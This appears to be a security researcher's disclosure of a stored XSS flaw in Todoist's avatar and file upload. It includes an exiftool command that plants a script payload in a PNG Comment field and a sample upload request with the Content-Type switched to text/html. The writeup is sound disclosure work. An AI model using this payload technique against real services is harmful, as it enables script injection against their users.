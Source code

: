 # Todoist App v8484 Stored XSS
I discovered a Stored XSS vulnerability on Todoist's platform through the avatar upload feature
Unrestricted file uploads allowing crafted image files,

    Lack of server-side MIME type verification, and

    Improper sanitization of image metadata (PNG tEXt chunk - Comment field).

This allows an attacker to upload a PNG file that executes arbitrary JavaScript when rendered, leading to stored XSS.

 PoC Technical Details

    Vulnerability Location:

        https://app.todoist.com/app/project/

        https://app.todoist.com/app/task/

    Attack Method:

        A PNG image is created and injected with a script payload into the Comment field using exiftool.
    Exiftool Command:

exiftool -Comment='"><script>alert(prompt("XSS BY Sencer Kilic & Berat Aksit"))</script>' pngtoxss.png 


<img width="750" height="54" alt="1" src="https://github.com/user-attachments/assets/c31c94a9-244e-428d-ad2d-d88f0926fa42" />



    This creates a malicious metadata chunk:

tEXtComment"><script>alert(prompt("XSS BY Sencer Kilic & Berat Aksit"))</script>

<img width="796" height="327" alt="2" src="https://github.com/user-attachments/assets/a6e0fc8a-da12-415f-9829-f526b36524f0" />



    The PNG is then uploaded via the avatar or file upload function.

Content-Type Override:

    During upload, using Burp Suite, the Content-Type header of the file is changed:

        From: image/png

        To: text/html

Request Sample:

POST /api/v1/uploads HTTP/2
Host: app.todoist.com
Content-Type: multipart/form-data; boundary=...
...
Content-Disposition: form-data; name="file"; filename="pngtoxss.png"
Content-Type: text/html

<img width="950" height="466" alt="2" src="https://github.com/user-attachments/assets/e2170ba6-3f24-4d64-ab6f-cfaa5ebe41f7" />

<img width="783" height="428" alt="3" src="https://github.com/user-attachments/assets/cd344eef-d74b-4a4f-aa13-93b4a34ae577" />

<img width="954" height="491" alt="5" src="https://github.com/user-attachments/assets/1f191fdd-6fad-4afc-aad4-6ef8b84f11b1" />


Result:
The file is successfully uploaded and stored on cloudfront.net 

CDN:

   https://d1ysz50cxb9zwl.cloudfront.net/.../file.png

  https://d1ysz50cxb9zwl.cloudfront.net/Hqrm6dtqk-uJQqsDlBsHlaXJGVfNsdSWndNtYEhynhPp75G4kI4Gvo6ZyPeL6Zce/by/54863037/as/file.png?Expires=1753944966&Signature=SSZgohwHkdjD9vC7CHs03rYFR5OLwnBGgXk2ciwXdMVkeRH2BEspYiHSI1RgJIWc9amiPnbvIO2u7BFFBvnfDTuhTisfmOYAQRo8OsGFGDe0KSeOqCr8eH9H7JQtvxreko0ih4diqURD8WCt4man6Vka0AMGs59s-n68P~4x~TYIGfeuUPgQY-CX8tcRdSE0NrWLHL6Of7w02jWA2Nk1giZt~~CStwGdO3diFxS5lYorZ7lkvnCe~9VObDdASogr-2YKDamVvqtORqwAwpibyxoTKvw00lVLLJDqqT9yRC~jIkJksqWhkfbuqF3iYJh4g5BkHK1ML-EGlTCLqMk-9Q__&Key-Pair-Id=APKAJAERRT46LD6FN4NA

  
   <img width="947" height="441" alt="6" src="https://github.com/user-attachments/assets/33c135f6-b3e4-46da-9060-7cd161eb5320" />


    When previewed or rendered, the embedded JavaScript executes due to improper sanitization and MIME type handling.


    

